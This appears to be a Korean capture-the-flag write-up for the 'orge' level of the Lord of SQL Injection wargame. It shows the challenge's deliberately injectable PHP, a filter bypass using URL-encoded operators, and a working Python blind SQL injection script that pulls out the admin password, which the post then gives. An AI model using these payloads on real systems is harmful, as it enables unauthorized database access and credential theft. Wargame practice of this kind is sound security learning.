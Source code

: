 ```yaml
---
layout: post
title: ! "[LOS] orge"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - gremlin
  - write-up
---
```


### https://los.eagle-jump.org/ 버전
![](/assets/posts/los/orge.png)

`query : select id from prob_orge where id='guest' and pw=''`
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```

orge 문제는 orc 문제와 비슷한 blind sql injection 문제인 듯 하다.
darkelf 문제와 마찬가지로 or,and는 필터링 된다.

addslashes 함수가 쓰이고 query가 두 개 있다.
orc 문제는 수동으로 풀었지만 orge 문제부터는 python 코드를 이용해 풀 예정이다.

아래 python 코드는 패스워드의 길이와 전체 패스워드를 출력해준다.
orc 문제를 풀었던 것에서 조금만 수정을 하면 되는데
url 주소창에 &&을 그대로 넣어주면 반영이 안된다.
url인코딩을 통해 &&을 %26%26으로 바꿔주고, ||도 바꿔주고 싶다면 %7c%7c 로 하면 된다.


```py
from requests import get
import string
from time import sleep

url = "https://los.eagle-jump.org/orge_~~~.php"

cookies = dict(PHPSESSID="세션")
special_strings = "~!@#$%^&*()+-_{}[]<>"
alpha = string.ascii_letters+string.digits+special_strings
result = ""

for i in range(1,20):
    parameter = "?pw=1'||length(pw)='"+ str(i) + "%23"
    new_url = url + parameter
    r = get(new_url, cookies=cookies)

    if r.text.find("Hello admin") > 0:
        length = i + 1
        print("password length is " + str(i))
        break
for i in range(1, length):
    for a in alpha:
        parameter = "?pw=' || id='admin' %26%26 ASCII(substr(pw,"+ str(i)+",1))="+str(ord(a))+"%23"
        new_url = url + parameter
        r = get(new_url, cookies=cookies)

        if r.text.find("Hello admin") > 0:
            print(str(i) + " -> " + a)
            result += a
            break

    if i == 1 and result == "":
        print("password not found")
        exit(0)

    if i == length-1:
        print("\npassword is"+result)
        print("\n")
```

![](/assets/posts/los/orge_auto.png)

코드 실행 결과
패스워드 길이는 8, 전체 패스워드는 6c864dec 이다.
`?pw=6c864dec` 를 입력해주면 문제가 풀린다.

![](/assets/posts/los/orge_clear.png)

### https://los.rubiya.kr 버전
코드는 동일하다

![](/assets/posts/los/orge_result.png)
![](/assets/posts/los/orge_py_clear.png)
